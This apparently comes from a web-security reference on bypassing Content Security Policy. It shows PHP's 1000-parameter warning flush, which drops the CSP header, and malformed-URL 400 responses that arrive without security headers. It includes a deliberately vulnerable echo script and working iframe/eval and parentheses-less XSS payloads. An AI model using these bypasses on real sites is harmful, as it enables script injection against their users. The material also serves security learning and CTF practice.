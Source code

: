 ```yaml
---
title: "CSP Bypass"
description: "CSP Bypass."
lead: "CSP Bypass."
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "client-side"
weight: 630
toc: true
---
```


## Definition

Content Security Policy (CSP) is a HTTP response headers that helps prevent Cross-Site Scripting (XSS), clickjacking, and other client-side injection attacks. It allows website owners to specify which sources of content are trusted, ensuring that browsers only execute or render resources from those approved sources.

- [Content Security Policy (CSP) - MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)

## Response Headers Manipulation

### PHP Headers Bypass using Warnings

PHP is known for buffering the response to 4096 bytes by default, so by providing enough data inside warnings, the response will be sent before the CSP header, causing the header to be ignored.

![PHP Headers Bypass using Warnings](./images/php-headers-bypass-warning.jpg)

Challenge source code:

```php
<?php
header("Content-Security-Policy: default-src 'none';");
if (isset($_GET["xss"])) echo $_GET["xss"];
```

Maximum parameters by default in PHP:
- `$_GET`: 1000 parameters - [PoC](https://gist.github.com/frevadiscor/e27177003e0f86f8b381e36d320b22d2)
- `$_POST`: 1000 parameters - [PoC](https://gist.github.com/frevadiscor/4ca1ecde477dba288176ff5fc674de17)
- `$_FILES`: 20 files - [PoC](https://gist.github.com/frevadiscor/855b960d41f4b8cf3b31450414ea5b84)

```python
# ------------------[ <= 1000 parameters ]------------------
>>> resp = requests.get('http://pilv.ar/?' + 'a=&' * 1000)
>>> resp.text
''
>>> resp.headers.get('Content-Security-Policy')
"default-src 'none';"
# ------------------[ > 1000 parameters ]------------------
>>> resp = requests.get('http://pilv.ar/?' + 'a=&' * 1001)
>>> resp.text
'<br />\n<b>Warning</b>:  PHP Request Startup: Input variables exceeded 1000. To increase the limit change max_input_vars in php.ini. in <b>Unknown</b> on line <b>0</b><br />\n<br />\n<b>Warning</b>:  Cannot modify header information - headers already sent in <b>/var/www/html/index.php</b> on line <b>2</b><br />\n'
>>> resp.headers.get('Content-Security-Policy')
>>>
```

**References:**
- [pilvar XSS challenge](https://x.com/pilvar222/status/1784618120902005070)
- [Write-ups to justCTF [*] 2020 by @terjanq](https://hackmd.io/@terjanq/justCTF2020-writeups#Baby-CSP-web-6-solves-406-points)

### Abuse 400 Errors

Use `%ZZ` or other non-valid URL-encoded characters to trigger a `Bad Request`. The response does not contain any security headers, such as `Content-Security-Policy`.

Example with `nginx` as a reverse proxy:

```js
$ curl -v 'http://localhost/%ZZ'
[...]
< HTTP/1.1 400 Bad Request
< Server: nginx/1.24.0
< Date: Wed, 01 May 2024 10:28:11 GMT
< Content-Type: text/html
< Content-Length: 157
< Connection: close
<
<html>
<head><title>400 Bad Request</title></head>
<body>
<center><h1>400 Bad Request</h1></center>
<hr><center>nginx/1.24.0</center>
</body>
</html>
```

Location: `about:blank`
```js
document.body.innerHTML="<iframe name=i src='/%ZZ' />"
i.eval("alert(location.href)")
```

Location: `http://target.com/%ZZ`
```js
document.body.innerHTML="<iframe name=i src='/%ZZ' />"
i.onload=setTimeout
i.Event.prototype.toString=RegExp.prototype.toString
i.Event.prototype.flags="-alert(location.href)"
```

**References:**
- [Arbitrary Parentheses-less XSS against strict CSP policies](https://terjanq.medium.com/arbitrary-parentheses-less-xss-e4a1cf37c13d)